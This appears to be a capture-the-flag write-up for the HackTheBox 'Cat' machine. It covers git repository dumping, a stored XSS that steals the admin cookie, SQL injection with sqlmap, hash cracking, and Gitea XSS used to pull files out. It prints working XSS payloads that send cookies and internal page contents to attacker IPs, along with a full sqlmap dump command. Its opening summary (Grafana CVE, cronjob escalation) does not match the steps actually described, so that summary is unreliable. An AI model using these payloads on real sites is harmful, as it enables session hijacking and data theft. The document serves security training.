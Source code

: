 #  HackTheBox: Cat - Writeup
This medium-difficulty box involves discovering a vulnerable Grafana v11.0.0 subdomain and exploiting CVE-2024-9264 for initial access. After pivoting to the user enzo, an internal cronjob web app running as root is accessed via SSH tunneling. Abusing this app allows privilege escalation to root. The box combines web enumeration, real-world CVE usage, and creative privesc via scheduled tasks.

##  Enumeration

### Nmap Scan

Using nmap, we are able to identify any open ports. The following ports are open;
•	SSH (22)
•	Apache Web Server (80)
```bash
nmap –sCV 10.10.11.53
 ```
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image002.png)

From the scripts scan, we can see a .git repository on the web server. Further enumeration using gobuster has been conducted but had no clear results. So now, we must add the machine’s IP to the hosts file in your machine.

 
## Initial foothold

### Git Enumeration
Using git-dumper, we able to extract the files in the .git directory of the web server.

```bash
git-dumper http://cat.htb/.bit gitFolder
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image004.png)
 
We then explore some of the interesting files gained.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image006.png)
 
On the join.php file, there is no input sanitization for the username, possible XSS. Hmm interesting..

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image006.png)
 
On the contest.php, the data of the users is sent to the SQL database. Including the username, which could be malicious.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image007.png)
 
On the admin.php, the admin (axel) either accepts or rejects the cat.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image009.png)
 
The accept_cat.php is susceptible to SQLi, where the sql_insert statement is being used.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image011.png)
 
On the config.php some information about the SQL database and configuration is given.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image013.png)
 
Using all this information from the file, we can construct an attack procedure.

### Persitent XSS 

First, we can create a user with the XSS payload in the username field, to gain admin cookies.

```bash
<script>document.location='http://10.10.14.120:1111/?c='+document.cookie;</script>
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image014.png)

Then register a normal cat in the contest.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image014.png)

From here, when admin accepts the cat, we gain his cookies.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image016.png)

Which we use, to hijack his session.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image018.png)

We are able to gain access to the admin.php, demonstrating successful XSS attack, now to get information from the SQL db, since we have the admin cookie.
 
## Exploitation

Since accept_cat.php is vulnerable to SQLi, we use the data provided from it, catID and catName to form a sqlmap comand.

```bash
sqlmap -u "http://cat.htb/accept_cat.php" --data="catId=1&catName=a" --cookie="PHPSESSID=ikn31got0uppvf5h3n5snv6cqh" -p "catName" --dbms=SQLite --dump --level=5 --risk=3 --flush-session --threads=5 --hex
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Cat/Screenshots/image020.png)
 
During the process, we are able to gain some usernames and hashed passwords, these are noted down. Some of the users include; rosa, axel(admin), robert, and more..


 
The hashes identified are md5 hashes.
 
Using johntheripper, we are able to obtain the hashed credentials, note only user rosa has a correct hash, rest of the users do not.
 
Using the credentials, we are able to SSH into rosa’s user.

## Privelege Escalation
 
Using linPEAS, we are aiming to privilege escalate or find some information.
 
In the apache access logs, which are usually hidden contain the password of the user axel.
 Using that, we are able to SSH into the axel user, and we see a new mail sent to axel.
 
And obtain the user flag.
 
Reading out the mail from rosa, we see a web page being hosted on the port 3000, which contains information about employees.
 As seen, the web server is being hosted on port 3000, in order to access it need to do SSH tunnelling back to my machine.
 
Using SSH tunnelling on port 3000.
 
We are able to login into the gitea, using axel’s credentials.
 We see this web server is powered by gitea version 1.22.0. Which is, vulnerable to Persistent XSS.

## Post-Exploitation
 
Using that information, I formed a XSS that accesses the employee-management readme and sends to my python server, accessing that information.
<a href="javascript:
fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md')
  .then(r => r.text())
  .then(d => fetch('http://10.10.14.182:8000/?d=' + btoa(d)))
">XSS test</a>

 
The link of the git is then sent to jobert, as instructed in the mail.
echo "http://localhost:3000/axel/test/" | sendmail jobert@localhost
 
The obtained data is then decoded from base64, getting the following information;

Employee Management
Site under construction. Authorized user: admin. No visibility or updates visible to employees.
In order to get the contents of the git, the following script is formed.
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/')
  .then(r => r.text())
  .then(d => fetch('http://10.10.15.95:8000', {
    method: 'POST',
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
    body: 'data=' + encodeURIComponent(d)
  }))">
  Click me
</a>

 
After decoding the received data, the following paths are found; 
 
There are the interesting paths, containing files;
/administrator/Employee-management/src/branch/main/chart.min.js
/administrator/Employee-management/src/branch/main/dashboard.php
/administrator/Employee-management/src/branch/main/index.php
/administrator/Employee-management/src/branch/main/logout.php
/administrator/Employee-management/src/branch/main/README.md
/administrator/Employee-management/src/branch/main/style.css

Upon finding those paths, I used the XSS script to get back data from those paths, and from index.php I obtained the admin credentials, getting the root flag.
 
 

